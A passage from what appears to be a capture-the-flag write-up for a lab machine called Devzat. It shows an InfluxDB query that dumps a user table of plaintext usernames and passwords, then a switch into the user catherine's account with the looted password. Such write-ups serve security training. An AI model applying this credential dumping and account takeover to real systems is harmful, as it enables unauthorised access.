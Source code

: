 ```sql
                    "columns": [   
                        "name"     
                    ], 
                    "name": "measurements",    
                    "values": [ 
                        [ 
                            "user"  
                        ]  
                    ]  
                }  
            ],
            "statement_id": 0 
        }  
    ]
}
[admin@10.10.11.118/devzat] $ select * from "user"
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "time",
                        "enabled",
                        "password",
                        "username"
                    ],
                    "name": "user",
                    "values": [
                        [
                            "2021-06-22T20:04:16.313965493Z",
                            false,
                            "WillyWonka2021",
                            "wilhelm"
                        ],
                        [
                            "2021-06-22T20:04:16.320782034Z",
                            true,
                            "woBeeYareedahc7Oogeephies7Aiseci",
                            "catherine"
                        ],
                        [
                            "2021-06-22T20:04:16.996682002Z",
                            true,
                            "RoyalQueenBee$",
                            "charles"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
```
With three users we have catherine and her password!
# Catherine
For some reason I couldn't ssh in to her account, so lets just use su.
```bash
patrick@devzat:~$ su catherine
Password: 
catherine@devzat:/home/patrick$ whoami
```